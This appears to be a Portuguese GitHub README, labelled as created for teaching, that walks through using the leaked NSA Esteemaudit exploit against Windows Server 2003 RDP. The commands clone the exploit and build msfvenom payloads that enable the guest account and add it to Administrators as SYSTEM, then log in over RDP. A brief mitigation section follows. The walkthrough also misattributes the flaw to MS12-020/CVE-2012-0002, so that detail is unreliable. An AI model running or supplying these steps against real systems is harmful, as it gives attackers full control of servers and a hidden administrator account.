# Esteemaudit (without Metasploit) - A Windows 2003 RDP Zero Day Exploit

Explorando Remote Desktop do Windows Server 2003 com o exploit Esteemaudit (sem Metasploit) e obtendo RCE.

**REPOSITÓRIO CRIADO PARA FINS DIDÁTICOS!**

Esta é uma portabilidade do Esteemaudit RDP Exploit vazado do Equationgroup (NSA). A vulnerabilidade explorada por este ataque está relacionada à autenticação de Smart Card, usada ao fazer logon no sistema por meio do serviço RDP. Os sistemas afetados são Windows Server 2003 SP1, SP2 e Windows XP SP0, SP1, SP3.

O logon do Smart Card é suportado por todas as versões do Windows após o Windows 2000. Ele contém um chip que armazena as informações de logon do usuário, juntamente com a chave privada e a chave de certificado pública. Ao inseri-lo em um leitor de cartão inteligente conectado ao computador e digitar um número de identificação pessoal (PIN), o usuário pode fazer login com segurança no sistema Windows. Quando o logon ocorre por meio do serviço RDP, a máquina remota que executa o serviço RDP se comunica com o computador local, que se conecta ao leitor de cartão inteligente, solicita as informações no cartão inteligente e verifica o PIN.

Esta vulnerabilidade está localizada na função "MyCPAcquireContext()" em "gpkcsp.dll", que é chamada por "winlogon.exe" na nova sessão do Windows. A função "MyCPAcquireContext()" é usada para configurar o contexto do Windows Cryptographic Service Providers (CSP). Ele lê os dados do Smart Card e define o valor dos campos da estrutura de contexto CSP. Se os dados lidos do cartão inteligente forem muito grandes, o buffer de campo usado pela estrutura de contexto CSP estoura e sobrescreve outro campo, permitindo a execução de código arbitrário.

**Para realizar o teste foi utilizado o Kali Linux 2022.3 como máquina atacante e Windows Server 2003 (x86) como máquina alvo.**

Identifique as possíveis vulnerabilidades no Remote Desktop do Windows Server:
```
nmap -v --script vuln -p3389 -Pn 172.16.1.110
```
```
PORT     STATE SERVICE
3389/tcp open  ms-wbt-server
|   MS12-020 Remote Desktop Protocol Remote Code Execution Vulnerability
|     State: VULNERABLE
|     IDs:  CVE:CVE-2012-0002
|     Risk factor: High  CVSSv2: 9.3 (HIGH) (AV:N/AC:M/Au:N/C:C/I:C/A:C)
|           Remote Desktop Protocol vulnerability that could allow remote attackers to execute arbitrary code on the targeted system.
|           
|     Disclosure date: 2012-03-13
|     References:
|       http://technet.microsoft.com/en-us/security/bulletin/ms12-020
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2012-0002
```

**Sabendo que é vulnerável, vamos preparar o Kali para realizar a exploração.**

No Kali, instale as dependências:
```
dpkg --add-architecture i386
apt-get update && apt-get install wine32
```

Realize a instalação dos pacotes libwine, wine, wine32 e winetricks
```
apt-get install libwine wine wine32 winetricks
```

Após a instalação certifique-se que o **Wine** esteja instalado, em seguida execute o comando **exit** para sair do **Wine**.
```
wine cmd
Microsoft Windows 6.1.7601 (4.0.2)

Z:\>exit
```

Baixe o exploit e copie os arquivos:
```
git clone https://github.com/d3fudd/MS12-020_Esteemaudit
cd MS12-020_Esteemaudit/
cp -r esteemaudit/ /usr/share/
cd /usr/share/esteemaudit
```

**Vamos gerar os payloads com os comandos que desejamos executar no Windows Server:**

Neste exemplo, iremos habilitar o usuário convidado, gerando o seguinte payload:
```
msfvenom -a x86 --platform Windows -p windows/exec CMD="net user guest /active:yes" -f dll > /root/.wine/drive_c/shell.dll
```
*(Sabendo que o comando será executado como NT AUTHORITY\SYSTEM podemos realizar tarefas administrativas)*

Em seguida iremos envia-lo para o servidor:
```
wine Esteemaudit-2.1.0.exe --TargetIp 172.16.1.110
```

![image](https://user-images.githubusercontent.com/76706456/186801388-f88fcc11-938e-4cba-be60-2b56e2a821ff.png)

![image](https://user-images.githubusercontent.com/76706456/186801418-a2aea451-eb16-4fe8-a883-5a579e0ea2a7.png)

*(No final da execução retornou um erro, porém o comando foi executado com sucesso)*

Em seguida vamos adiciona-lo ao grupo de Administradores, gerando o seguinte payload:
```
msfvenom -a x86 --platform Windows -p windows/exec CMD='net localgroup "Administrators" guest /add' -f dll > /root/.wine/drive_c/shell.dll
```

Em seguida iremos envia-lo para o servidor:
```
wine Esteemaudit-2.1.0.exe --TargetIp 172.16.1.110
```

![image](https://user-images.githubusercontent.com/76706456/186801388-f88fcc11-938e-4cba-be60-2b56e2a821ff.png)

![image](https://user-images.githubusercontent.com/76706456/186801418-a2aea451-eb16-4fe8-a883-5a579e0ea2a7.png)

*(No final da execução retornou um erro, porém o comando foi executado com sucesso)*

Por fim, vamos nos conectar ao RDP utilizando o usuário guest:
```
rdesktop 172.16.1.110 -u guest -p ''
```

![image](https://user-images.githubusercontent.com/76706456/186801609-9c57de87-1d2c-42b5-9a74-c7e44c0d178f.png)

# Como mitigar

1 - Execute gpedit.msc

2 - Vá em Computer Configuration\Administrative Templates\Windows Components\Terminal Services\Client/Server data redirection\

3 - Habilite "Do not allow Smart Card device redirection"

4 - Reinicie o servidor

# Referências

https://github.com/BlackMathIT/Esteemaudit-Metasploit

https://www.fortinet.com/blog/threat-research/deep-analysis-of-esteemaudit

#
Tags: CVE-2012-0002, MS12-020, Remote Desktop, Remote Code Execution, Vulnerability, RCE, RDP, Exploit, Exploit RDP, Windows, Server, 2003, Exploit RDP Windows Server 2003, Esteemaudit, Esteemaudit sem metasploit, without metasploit, Exploração do Windows Server 2003 com Esteemaudit sem metasploit
